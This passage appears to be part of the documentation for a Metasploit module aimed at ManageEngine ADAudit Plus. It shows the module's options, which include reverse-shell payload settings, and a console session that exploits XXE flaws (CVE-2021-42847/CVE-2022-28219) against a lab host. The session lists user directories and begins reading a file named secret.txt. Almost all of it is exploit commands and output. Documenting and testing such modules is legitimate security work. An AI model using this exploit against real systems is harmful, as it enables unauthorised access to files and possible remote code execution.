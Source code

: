 ```
   SRVPORT           8080              yes       The local port to listen on.
   SRVPORT_FTP       2121              yes       Port for FTP reverse connection
   SRVPORT_HTTP2     8888              yes       Port for additional HTTP reverse connections
   SSL               false             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                             no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI         /                 yes       The base path to ManageEngine ADAudit Plus
   URIPATH                             no        The URI to use for this exploit (default is random)
   USE_MSF_PAYLOAD   true              no        Use the cmd/windows/powershell_reverse_tcp payload for WRITE_FILE and OVERWRITE_ALERT_SCRIPT.
   VHOST                               no        HTTP server virtual host
   XXE_VECTOR        CVE-2021-42847    no        XXE vector for obtaining file contents/directory listings (CVE-2022-28219 or CVE-2021-42847)


Auxiliary action:

   Name              Description
   ----              -----------
   READ_FILE_OR_DIR  Read the contents of a file or directory specified via FILE_OR_DIR_PATH


msf6 auxiliary(admin/http/manageengine_adaudit_plus_file_read_write) > set FILE_OR_DIR_PATH /users/
FILE_OR_DIR_PATH => /users/
msf6 auxiliary(admin/http/manageengine_adaudit_plus_file_read_write) > run
[*] Running module against 192.168.91.250

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The vulnerable endpoint /api/agent/tabs/agentGPOWatcherData is available and responds with HTTP/200
[*] Getting contents for /users/ via XXE and FTP
[*] Using URL: http://192.168.91.195:8080/lREPlWhKGqjI.dtd
[+] Received the following contents for /users/:
Administrator
All Users
Default
Default User
desktop.ini
karen
Public
[*] Server stopped.
[*] Auxiliary module execution completed
msf6 auxiliary(admin/http/manageengine_adaudit_plus_file_read_write) > set FILE_OR_DIR_PATH /users/karen/
FILE_OR_DIR_PATH => /users/karen/
msf6 auxiliary(admin/http/manageengine_adaudit_plus_file_read_write) > run
[*] Running module against 192.168.91.250

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The vulnerable endpoint /api/agent/tabs/agentGPOWatcherData is available and responds with HTTP/200
[*] Getting contents for /users/karen/ via XXE and FTP
[*] Using URL: http://192.168.91.195:8080/TSFkWlLFTdd.dtd
[+] Received the following contents for /users/karen/:
secret.txt
[*] Server stopped.
[*] Auxiliary module execution completed
msf6 auxiliary(admin/http/manageengine_adaudit_plus_file_read_write) > set FILE_OR_DIR_PATH /users/karen/secret.txt
FILE_OR_DIR_PATH => /users/karen/secret.txt
msf6 auxiliary(admin/http/manageengine_adaudit_plus_file_read_write) > run
[*] Running module against 192.168.91.250
```